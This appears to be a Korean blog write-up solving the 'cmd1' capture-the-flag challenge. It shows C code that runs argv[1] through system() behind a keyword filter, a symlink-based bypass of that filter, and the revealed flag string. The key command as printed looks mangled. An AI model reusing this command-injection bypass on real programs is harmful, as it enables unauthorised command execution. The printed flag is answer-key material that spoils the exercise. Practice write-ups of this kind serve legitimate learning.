

## 문제



cmd1.c 파일 내용은 아래와 같다.
argv[1]에 flag나 sh나 tmp가 들어가면 안되는 듯.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

## 풀이

export 명령어로 환경변수를 하나 지정해서 넣어주면 된다.
난 처음에 환경변수를 생각 못해서 좀 괴상하게 풀었다.

tmp를 못쓰면 tmp에서 하면 되지!! 해서 이렇게

```console
$ mkdir /tmp/cmd1k
$ ln -s /home/cmd1/cmd1 /tmp/cmd1k/cmd1
$ ln -s /home/cmd1/flag /tmp/cmd1k/f
$ cd /tmp/cmd1k
$ ./cmd1 'bin/catf'
mommy now I get what PATH environment is for :)
$
```

mommy now I get what PATH environment is for :)

환경변수 출력을 어떻게 해야하는지 까먹었는데 이번 기회에 다시 알게되서 참 좋다.
1점 문제만 있으면 좋겠다.
